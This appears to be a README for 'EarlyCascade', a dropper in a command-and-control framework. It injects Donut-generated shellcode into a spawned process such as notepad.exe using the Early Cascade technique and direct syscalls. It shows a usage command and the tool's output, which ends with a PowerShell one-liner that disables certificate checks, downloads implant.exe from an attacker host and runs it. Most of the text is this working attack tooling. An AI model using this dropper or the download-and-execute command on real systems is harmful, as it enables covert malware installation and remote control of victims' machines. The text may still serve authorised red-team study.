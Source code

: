 # EarlyCascade

This project is part of the [Exploration C2 Framework](https://github.com/maxDcb/C2TeamServer)

Dropper that use Early Cascade technique [EarlyCascade](https://github.com/0xNinjaCyclone/EarlyCascade) to inject a shellcode generated with [Donut](https://github.com/TheWover/donut). The injection process use syscall inspiered by [SysWhispers3](https://github.com/klezVirus/SysWhispers3). 


```
python3 EarlyCascade.py -p notepad.exe -u https://10.10.10.10:8000 -b ./BeaconHttp.exe -a "10.10.10.10 8443 https"
[+] Parse url:
 Schema: https
 IP Address: 10.10.10.10
 Port: 8000
 Full Location: /JGWOEYVI72UCI9X
 shellcodeFile: JGWOEYVI72UCI9X
 Process to start: notepad.exe

[+] Generate shellcode to fetch with donut:
 ...


[+] Compile injector with informations
generate cryptDef.h with given input 
 compile injector 


[+] Check generated files

[+] Done

[+] Dropper path  :  ['./EarlyCascade/bin/implant.exe']
[+] Shellcode path:  ['./EarlyCascade/bin/JGWOEYVI72UCI9X']
[+] Command to run:  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; (New-Object Net.WebClient).DownloadFile('https://10.10.10.10:8000/implant.exe',(Get-Location).Path+'\test.exe'); Start-Process test.exe;

```